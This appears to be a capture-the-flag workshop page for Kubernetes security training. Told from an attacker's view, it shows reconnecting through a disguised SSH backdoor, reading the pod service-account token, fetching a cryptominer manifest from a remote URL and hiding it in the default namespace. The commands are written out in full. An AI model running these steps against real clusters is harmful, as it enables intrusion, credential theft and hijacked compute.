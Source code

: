 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:  

* There is a service account associated with the container which has been granted access to all kubernetes APIs
* The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

This time, we will create our miner in the `default` namespace. Since it is common for lots of orphaned deployments to land here, maybe ours will go unnoticed:
```console
export NAMESPACE=default
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Let's redownload kubectl here and create our miner:
```console
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.30/bin/linux/amd64/kubectl; chmod 555 kubectl
export KUBERNETES_SERVICE_HOST=kubernetes.default.svc
export KUBERNETES_SERVICE_PORT=443
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml
```

Verify that the pod is running:
```console
kubectl get pods -n default
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods?labelSelector=run%3dbitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
kubectl get pods -A
```

Time for some celebratory pizza!